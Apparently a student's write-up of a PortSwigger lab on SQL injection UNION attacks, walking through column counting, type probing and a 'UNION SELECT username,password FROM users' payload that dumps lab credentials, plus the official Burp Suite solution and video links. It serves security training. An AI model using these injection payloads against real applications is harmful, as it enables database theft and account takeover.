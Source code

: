 # Lab: SQL injection UNION attack, retrieving data from other tables

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform an [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

![lab-sql-retrieving-other-data.png](./lab-sql-injection-union-attack-retrieving-data-from-other-tables/lab-sql-retrieving-other-data.png)

# SQLi Verification Payload

```sql
'--
```

![screenshot00](./lab-sql-injection-union-attack-retrieving-data-from-other-tables/screenshot00.png)

![screenshot01](./lab-sql-injection-union-attack-retrieving-data-from-other-tables/screenshot01.png)

# Count Number of Columns

```sql
'UNION SELECT NULL--
'UNION SELECT NULL,NULL--
'UNION SELECT NULL,NULL,NULL--
```

<aside>
💡 There are two columns

</aside>

![screenshot02](./lab-sql-injection-union-attack-retrieving-data-from-other-tables/screenshot02.png)

# Identify Data Types

```sql
'UNION SELECT '',NULL--
'UNION SELECT NULL,''--
```

<aside>
💡 Both of them are string

</aside>

# Retrieve `users` Table

```sql
'UNION SELECT username,password FROM users--
```

![screenshot03](./lab-sql-injection-union-attack-retrieving-data-from-other-tables/screenshot03.png)

```
carlos
zqxkh0etk1uigkridyqk
administrator
lt7py7bsak76t4a9vfb7
wiener
g2xhdak9ac2ud3yoscaj
```

# Access with Administrator Account

![screenshot04](./lab-sql-injection-union-attack-retrieving-data-from-other-tables/screenshot04.png)

![lab-solved-sql-retrieving-other-data.png](./lab-sql-injection-union-attack-retrieving-data-from-other-tables/lab-solved-sql-retrieving-other-data.png)

# Other Solutions

## Burp Suite

1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the [number of columns that are being returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns) and [which columns contain text data](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text). Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter: `'+UNION+SELECT+'abc','def'--`.
3. Use the following payload to retrieve the contents of the `users` table: `'+UNION+SELECT+username,+password+FROM+users--`
4. Verify that the application's response contains usernames and passwords.

## Community Solutions

Rana Khalil

[SQL Injection - Lab #5 SQL injection UNION attack, retrieving data from other tables](https://youtu.be/6Dsj5SqR944)

Michael Sommer

[SQL injection UNION attack, retrieving data from other tables (Video solution, Audio)](https://youtu.be/AkE_JHU7skQ)

